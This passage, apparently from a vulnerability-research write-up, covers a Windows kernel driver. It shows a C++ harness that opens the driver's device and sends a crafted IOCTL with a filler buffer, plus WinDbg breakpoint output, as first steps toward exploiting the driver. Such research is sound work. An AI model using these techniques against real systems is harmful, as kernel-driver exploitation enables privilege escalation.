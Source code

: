 So with a potential IOCTL that can get close to the code path we want, we quickly check the driver `start` function which calls `sub_1E80` and has the string we need in order to use `CreateFile` to get a handle to the driver.

![](hd_ida_entry.png)Now we can write our first template and debug the driver:

```cpp
#include "windows.h"
#include <stdio.h>

#define QWORD ULONGLONG
#define IOCTL_01 0x9C406500

int main() {
    DWORD index = 0;
    DWORD bytesWritten = 0;

    HANDLE hDriver = CreateFile(L"\\\\.\\HW", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }    
   
    LPVOID uInBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    LPVOID uOutBuf = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    QWORD* in = (QWORD*)((QWORD)uInBuf);
    *(in + index++) = 0x4141414142424242;
    *(in + index++) = 0x4343434344444444; 
    *(in + index++) = 0x4545454546464646;              

    DeviceIoControl(hDriver, IOCTL_01, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);

    return 0;
}
```

Before running the driver, we set a breakpoint on the IOCTL comparison so we can follow the execution flow in the debugger:

```
0: kd>.reload
0: kd> lm m hw64
Browse full module list
start             end                 module name
fffff806`5c1a0000 fffff806`5c1aa000   hw64       (deferred)
0: kd> ba e1 hw64+0x3F70
0: kd> g
...
Breakpoint 0 hit
hw64+0x3f70:
fffff806`5c1a3f70 81bc24b40000000065409c cmp dword ptr [rsp+0B4h],9C406500h
```
